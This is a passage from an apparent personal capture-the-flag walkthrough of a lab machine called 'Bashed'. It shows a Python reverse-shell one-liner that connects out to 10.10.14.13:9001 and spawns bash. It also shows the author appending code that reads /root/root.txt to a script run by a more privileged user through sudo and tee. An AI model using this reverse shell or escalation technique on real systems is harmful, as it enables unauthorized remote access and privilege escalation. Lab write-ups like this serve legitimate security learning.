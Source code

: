 ```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

And I got a lovely shell back:

![[Pasted image 20210505104808.png]]

I quickly upgraded my shell:

![[Pasted image 20210505114032.png]]

(i'm not sure why it says `nc -lnvp 9001` in the above)

### Experimenting with the Python Script

However I couldn't find an easy way to edit the file - using `vi` seemed to break down:

![[Pasted image 20210505105226.png]]

I could enter edit mode by pressing `i`, but the arrow keys didn't work and pressing delete just capitalised the characters...

![[Pasted image 20210505105452.png]]

I tried echoing some text:

```bash
www-data@bashed:/$ sudo -u scriptmanager echo 'f = open("/root/root.txt","r");print(f.read())'  >> /scripts/test.py
```

But got this error:

```bash
bash: /scripts/test.py: Permission denied
```

Again, with `>` instead of `>>`:

```bash
www-data@bashed:/$ sudo -u scriptmanager echo "a" > /scripts/test.py
bash: /scripts/test.py: Permission denied
```

It's as if it's trying to execute the final part of the command as `www-data`. I googled this and found [an example](https://unix.stackexchange.com/questions/4335/how-to-insert-text-into-a-root-owned-file-using-sudo) using `tee`:

```bash
echo 'f = open("/root/root.txt","r");print(f.read())' | sudo -u scriptmanager tee -a /scripts/test.py
f = open("/root/root.txt","r");print(f.read())
www-data@bashed:/$ sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
f = open("/root/root.txt","r");print(f.read())
```
